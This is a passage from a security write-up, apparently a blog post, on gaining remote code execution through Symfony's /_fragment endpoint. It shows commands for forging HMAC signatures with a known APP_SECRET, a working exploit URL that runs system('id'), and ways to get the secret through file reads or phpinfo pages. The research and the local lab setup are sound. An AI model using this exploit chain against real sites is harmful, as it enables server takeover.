To test this, let's setup a test environment, and extract the secret (in this case, randomly generated).

$ git clone https://github.com/symfony/skeleton.git
$ cd skeleton
$ composer install
$ sed -i -E 's/#(esi|fragment)/\1/g' config/packages/framework.yaml # Enable ESI/fragment
$ grep -F APP_SECRET .env # Find secret
APP_SECRET=50c8215b436ebfcc1d568effb624a40e
$ cd public
$ php -S 0:8000

Now, visiting http://localhost:8000/_fragment yields a 403. Let's now try and provide a valid signature:

$ python -c "import base64, hmac, hashlib; print(base64.b64encode(hmac.HMAC(b'50c8215b436ebfcc1d568effb624a40e', b'http://localhost:8000/_fragment', hashlib.sha256).digest()))"
b'lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8='

By checking out http://localhost:8000/_fragment?_hash=lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8=, we now have a 404 status code. The signature was correct, but we did not specify any request attribute, so Symfony does not find our controller.

Since we can call any method, with any argument, we can for instance pick system($command, $return_value), and provide a payload like so:

$ page="http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
$ python -c "import base64, hmac, hashlib; print(base64.b64encode(hmac.HMAC(b'50c8215b436ebfcc1d568effb624a40e', b'$page', hashlib.sha256).digest()))"
b'GFhQ4Hr1LIA8mO1M/qSfwQaSM8xQj35vPhyrF3hvQyI='

We can now visit the exploit URL: http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull&_hash=GFhQ4Hr1LIA8mO1M/qSfwQaSM8xQj35vPhyrF3hvQyI=.

Despite the 500 error, we can see that our command got executed.

RCE using fragment
1
Finding secrets

Again: all of this would not matter if secrets were not obtainable. Oftentimes, they are. We'll describe several ways of getting code execution without any prior knowledge.
Through vulnerabilities

Let's start with the obvious: using lower-impact vulnerabilities to obtain the secret.
File read

Evidently, a file read vulnerability could be used to read the following files, and obtain secret:

    app/config/parameters.yml

    .env

As an example, some Symfony debug toolbars allow you to read files.
PHPinfo

On recent symfony versions (3.x), secret is stored in .env as APP_SECRET. Since it is then imported as an environment variable, they can be seen through a phpinfo() page.
